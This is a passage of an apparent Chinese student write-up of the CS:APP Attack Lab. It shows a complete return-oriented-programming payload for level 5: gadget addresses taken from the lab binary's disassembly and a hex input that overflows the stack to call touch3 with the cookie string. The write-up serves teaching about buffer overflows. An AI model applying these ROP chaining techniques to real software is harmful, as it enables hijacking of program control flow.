c6 19 40 00 00 00 00 00 /* the addr of gadget2 */ /* movl %eax,%edi; nop; retq */
ec 17 40 00 00 00 00 00 /* the addr of touch2 */
```

以下通过第四关的界面：


##### 3.32 第五关

###### 3.321 任务要求

第四关的目标和第三关类似，也是使程序返回到`touch3`函数，并且要将cookie的16进制串转换为字符串形式，再将该字符串作为参数传递到`touch3`函数中，只不过这次是让我们使用ROP攻击。

而且和`ctarget`文件一样，`touch3`函数会调用一个`hexmatch`函数来判断转换的字符串形式是否正确，且该函数会分配一个很大的缓冲区来对我们的操作进行限制。

本关要求我们只能拆分从函数`start_farm`到函数`end_farm`中的函数(包含这两个函数)。

###### 3.322 任务解答

和第四关一样，我们需要根据我们的需求来确定我们应该使用的指令，然后再在所给的函数中寻找包含这些指令的子序列指令。

所以解题步骤为：
1. 根据需求确定所要使用的指令，并在所给函数的汇编代码中寻找是否有含有所需指令的子序列组合指令。
   如果没有，则根据需求确定另一套指令，然后继续寻找，直至找到一个满足需求的可用组合指令，并记录该指令的起始地址。
2. 根据所使用的组合指令以及相关信息编写16进制的攻击代码，并用所提供的工具将其转换成字符串。
3. 将该字符串输入到程序中，进行攻击。

根据本关的需求，因为本关需要储存cookie的字符串形式，但是我们所能考虑的指令很少，且不可能用含有准确地址值的指令，所以我们只能将其字符串储存到栈顶向上的栈区域。

我们发现可以使用指令`movq %rsp, %rax`来传递指向储存在栈内存中的cookie字符串的栈指针。
但是如果直接使用这个指令，那么当该子序列指令执行完后，pc会指向该字符串，导致将该字符串当做指令执行，从而出错。
所以我们不能直接将储存字符串的栈地址赋给`%rax`，而要先对其赋值储存其他子序列指令地址的栈地址，然后对`%rax`进行算术运算，从而使`%rax`保存的是真正字符串地址，最后将`%rax`赋值给`%rdi`，从而完成`touch3`函数的参数传递。

根据以上的想法，我们在所给函数的汇编代码中寻找含有这些指令的组合指令，然后发现了函数`addval_190`的某组合指令可以完成`movq %rsp, %rax`指令，函数`add_xy`的某组合指令可以完成算术运算的指令，最后函数`setval_426`完成其他的指令。
```bash
# 函数addval_190
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   
# 可用的子序列组合指令，起始地址为0x401a06
  401a06:   48 89 e0                movq %rsp,%rax
  401a09:   c3                      retq
```
```bash
# 函数add_xy
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
# 可用的子序列组合指令，起始地址为0x4019d8
  4019d8:   04 37                   addb $0x37,%al
  4019da:   c3                      retq
```
```bash
# 函数setval_426
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
# 可用的子序列组合指令，起始地址为0x4019c5
  4019c5:   48 89 c7                movq %rax,%rdi
  4019c8:   90                      nop
  4019c9:   c3                      retq
```

以下是根据所使用的组合指令以及相关信息所编写16进制的攻击代码：
```c
/* 该内容存放在strs5文件中 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* the addr of gadget1 */ /* movq %rsp,%rax; retq */
d8 19 40 00 00 00 00 00 /* the addr of gadget2 */ /* addb $0x37,%al; retq */
c5 19 40 00 00 00 00 00 /* the addr of gadget3 */ /* movq %rax,%rdi; nop; retq */
fa 18 40 00 00 00 00 00 /* the addr of touch3 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 35
39 62 39 39 37 66 61 0a /* the string of cookie */
```

以下通过第五关的界面：


### 4.总结

本次实验让我们深入地认识了有关缓存区溢出的相关知识。

通过这次实验，我们会在以后的编写代码时更加注意这方面的问题，避免发生这些漏洞，从而写出更加健壮的程序。